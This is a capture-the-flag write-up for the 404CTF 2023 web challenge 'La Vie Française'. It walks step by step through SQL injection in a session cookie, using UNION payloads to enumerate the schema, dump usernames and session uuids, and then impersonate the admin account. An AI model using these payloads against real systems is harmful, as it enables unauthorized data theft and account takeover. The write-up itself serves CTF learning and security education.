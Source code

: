 ```yaml
---
layout: writeup
category: 404CTF2023
chall_description: https://ctf.404ctf.fr/challenges#La%20Vie%20Fran%C3%A7aise-113
points: 956
solves: 81
tags: Web
date: 2023-06-06
comments: false
---
```


## ## Challenge Description

We have access to a website La Vie Francais (which was hinted that there exists a SQL server, since the admin banned sqlmap)

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais1.png "Home page")

From the description and context of the challenge, it seems like we need to login as Madame Forestier to get the flag.

## ## Solution

In the beginning, I thought that we have to bypass the login form but it has a filter that reject all but the alphanumeric character with this error message: " Seuls les caractères alphanumériques sont autorisés "

However it was a rabbit hole!

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais2.png "Login")

The real trick here is after we login: /account endpoint with the cookie uuid

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais3.png "Account")

When we change the uuid to **` ' OR 1=1#'** the page no longer shows our name but jacquesrival instead.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais_jaques.png "SQL Test")

This confirmed that this section is vulnerable to SQLi. Now let's exploit it.

First thing first we need to find out the number of columns of the return table before using the UNION attack with the payload **`' UNION SELECT 1,2,3#'**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploit1.png "SQL Test")

As we can see above, the field 1 is for the username, field 2 is some kind of message for the type user or admin maybe? and the 3 is perhap the uuid.

With this payload **`' UNION SELECT 1,database(),2'`** I found the database name **` usersdb`**

Then with **`' UNION SELECT table_name,2,3 from information_schema.tables where table_schema='usersdb'#`** I found the table **`users**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitusers.png "SQL Test")

For the columns name we use **`' UNION SELECT group_concat(column_name),2,3 from information_schema.columns where table_name='users'#**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitcolumns.png "SQL columns names")

Now all we need to do to leak the uuid of the owner and impersonate Madame Forestier!

**`' UNION SELECT group_concat(username,':',uuid SEPARATOR '#####'),2,3 from users#** leads us to the uuid of Madame Forestier madeleineforestier:8650580d3fe9431f8281b2212e9ff0de.

Change our uuid in cookie with Chrome Dev Tools (or modify it with Burp) and we can see the admin page.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisfinal.png "GG")
